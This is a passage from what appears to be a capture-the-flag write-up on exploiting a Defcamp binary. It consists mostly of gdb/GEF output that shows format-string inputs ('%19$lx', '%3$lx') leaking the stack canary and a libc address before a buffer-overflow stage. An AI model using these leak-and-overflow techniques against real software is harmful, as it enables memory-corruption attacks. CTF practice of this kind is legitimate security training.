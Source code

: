 ```asm
0x00007fffffffdd18│+0x0008: 0x00007ffff7dcfa00  →  0x00000000fbad2288
0x00007fffffffdd20│+0x0010: 0x2520000a41414141 ("AAAA"?)	 ← $rsi
0x00007fffffffdd28│+0x0018: 0x00000a786c243931 ("19$lx"?)
0x00007fffffffdd30│+0x0020: 0x00007fffffffde20  →  0x0000000000000001
0x00007fffffffdd38│+0x0028: 0x50a01b0663fa1e00
0x00007fffffffdd40│+0x0030: 0x0000555555554830  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffdd48│+0x0038: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555554810 <main+150>       call   0x555555554650 <fgets@plt>
   0x555555554815 <main+155>       mov    eax, 0x0
   0x55555555481a <main+160>       mov    rcx, QWORD PTR [rbp-0x8]
 → 0x55555555481e <main+164>       xor    rcx, QWORD PTR fs:0x28
   0x555555554827 <main+173>       je     0x55555555482e <main+180>
   0x555555554829 <main+175>       call   0x555555554630 <__stack_chk_fail@plt>
   0x55555555482e <main+180>       leave  
   0x55555555482f <main+181>       ret    
   0x555555554830 <__libc_csu_init+0> push   r15
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "q3", stopped, reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x55555555481e → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x000055555555481e in main ()
gef➤  p $rcx
$1 = 0x50a01b0663fa1e00    <-- Ye, there it is.
gef➤  
```

Here, we have a stack canary leak which is equal to the one in `rcx` register where it's getting stored. So, now we need to find out the libc offset as we are now on buffer overflow stage. As we already know we need to get libc offset and from earlier that format string vulnerability was causing the libc address to leak, so it'd be a matter of time to find it out:-

```asm
gef➤  r
Starting program: /home/robin/CTFs/Defcamp/q3 
Enter name : %3$lx
Hello
7ffff7af4154
Enter sentence : ^C  
Program received signal SIGINT, Interrupt.

-- snip --

gef➤  vmmap
Start              End                Offset             Perm Path
0x0000555555554000 0x0000555555555000 0x0000000000000000 r-x /home/robin/CTFs/Defcamp/q3
0x0000555555754000 0x0000555555755000 0x0000000000000000 r-- /home/robin/CTFs/Defcamp/q3
0x0000555555755000 0x0000555555756000 0x0000000000001000 rw- /home/robin/CTFs/Defcamp/q3
0x0000555555756000 0x0000555555777000 0x0000000000000000 rw- [heap]
0x00007ffff79e4000 0x00007ffff7bcb000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7bcb000 0x00007ffff7dcb000 0x00000000001e7000 --- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcb000 0x00007ffff7dcf000 0x00000000001e7000 r-- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcf000 0x00007ffff7dd1000 0x00000000001eb000 rw- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dd1000 0x00007ffff7dd5000 0x0000000000000000 rw- 
```